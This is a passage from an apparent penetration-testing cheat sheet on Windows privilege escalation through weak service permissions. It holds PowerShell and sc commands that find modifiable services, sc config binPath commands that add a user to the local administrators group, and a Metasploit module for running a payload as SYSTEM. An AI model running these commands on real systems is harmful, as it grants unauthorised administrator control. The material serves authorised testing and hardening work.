 ```
meterpreter> powershell_execute Get-ModifiableService
```

If the use of the tools above is not a possibility, the Windows built-in `sc`
can be used to directly retrieve a service's security descriptor's `DACL` (but
not the owner of the service nor the it's `SACL`):

```
sc sdshow <SERVICE_NAME>

# Lists the DACL's ACE of the specified service, excluding rights granted to privileged principals.
$sddl = sc.exe sdshow <SERVICE_NAME> | where { $_ }
$sddl.split('(') | Select-String -NotMatch 'D:', 'BA', 'LA', 'SY', 'PU'

# Enumerates the DACL's ACE of all services, excluding rights granted to privileged principals.
Get-Service | % { Write-Host $_.Name; $sddl = sc.exe sdshow $_.Name ; $sddl.split('(') | Select-String -NotMatch 'D:', 'BA', 'LA', 'SY', 'PU'; Write-Host "`n`n" }

# Enumerates the rights granting modification privileges of all services, excluding rights granted to privileged principals.
Get-Service | % { Write-Host $_.Name; $sddl = sc.exe sdshow $_.Name ; $sddl.split('(') | Select-String -NotMatch 'BA', 'LA', 'SY', 'PU' | Select-String ';-;', 'DC', 'GA', 'GX', 'WD', 'WO' | Select-String -NotMatch 'WD\)'; Write-Host "`n`n" }
```

The `sc` utility can, among others, also be used to alter a service
configuration:

```
# A space is required after binPath=
sc config <SERVICE_NAME> binPath= "net user <USERNAME> <PASSWORD> /add"
sc config <SERVICE_NAME> binPath= "net localgroup administrators <USERNAME> /add"
sc config <SERVICE_NAME> binPath= "<NEW_BIN_PATH>"

# If needed, start the service under Local Service account
sc config <SERVICE_NAME> obj= ".\LocalSystem" password= ""
sc config <SERVICE_NAME> obj= "\Local Service" password= ""
sc config <SERVICE_NAME> obj="NT AUTHORITY\LocalService" password= ""
```

The `Metasploit` module `exploit/windows/local/service_permissions` can be used
through an existing `meterpreter` session to automatically detect and exploit
weak services permissions to execute a specified payload under NT
AUTHORITY\SYSTEM privileges.

###### Unsecure NTFS permissions on service binaries

Permissive NTFS permissions on the service binary used by the service can be
leveraged to elevate privileges on the system as the user running the service.

If available, the Windows utility `wmic` can be used to retrieve all services
binary paths:

```
wmic service list full | findstr /i "PathName" | findstr /i /v "System32"

Get-WmiObject -Class win32_service -Property PathName | Ft PathName
Get-WmiObject -Class win32_service -Property PathName | Where-Object { $_.PathName -NotMatch "system32"} | Ft PathName
```
